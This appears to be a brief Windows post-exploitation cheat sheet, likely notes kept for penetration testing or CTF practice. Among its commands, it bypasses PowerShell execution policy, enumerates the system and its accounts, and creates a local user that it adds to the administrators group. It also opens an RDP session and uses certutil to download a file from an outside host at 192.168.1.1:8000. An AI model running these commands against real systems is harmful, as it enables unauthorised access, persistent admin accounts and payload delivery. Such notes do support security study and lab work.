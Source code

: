 * #### 1. Powershell
    . Bypass ExecutionPolicy (cannot be loaded because running scripts is disabled on this system)

    ```
    powershell -ep bypass
    ```

* #### 2. CMD
    ```powershell
    whoami

    systeminfo

    net user

    net user username password /add <create new username with password>

    net localgroup administrators user /add <add user to administrator group>

    net localgroup administrators <list administrators>

    wmic useraccount get name,sid

    cd $env:USERPROFILE/DESKTOP

    certutil.exe https://lolbas-project.github.io/lolbas/Binaries/Certutil/
    ```

    ```
    xfreerdp /u:username /v:ip_address

    certutil.exe -urlcache  -f http://192.168.1.1:8000/filename outputfilename
    ```  

